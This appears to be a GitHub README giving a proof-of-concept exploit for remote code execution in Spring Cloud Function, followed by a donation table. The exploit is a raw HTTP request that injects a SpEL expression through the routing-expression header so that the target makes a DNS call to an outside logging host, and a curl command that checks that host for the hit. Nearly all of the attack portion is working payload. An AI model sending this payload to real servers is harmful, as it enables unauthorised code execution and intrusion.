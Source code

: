 <img width="1148" alt="image" src="https://user-images.githubusercontent.com/18223385/160409293-eae65d89-9dea-43c9-8157-795f124489ad.png">

# poc2

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("random87535.rce.51pwn.com")
Content-Length: 5

51pwn
```

## check

```bash
curl -v -H "user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0" 'https://51pwn.com/dnslog?q=random87535.rce.51pwn.com'
```

# Donation
| Wechat Pay | AliPay | Paypal | BTC Pay |BCH Pay |
| --- | --- | --- | --- | --- |
|<img src=https://raw.githubusercontent.com/hktalent/myhktools/main/md/wc.png>|<img width=166 src=https://raw.githubusercontent.com/hktalent/myhktools/main/md/zfb.png>|[paypal](https://www.paypal.me/pwned2019) **miracletalent@gmail.com**|<img width=166 src=https://raw.githubusercontent.com/hktalent/myhktools/main/md/BTC.png>|<img width=166 src=https://raw.githubusercontent.com/hktalent/myhktools/main/md/BCH.jpg>|


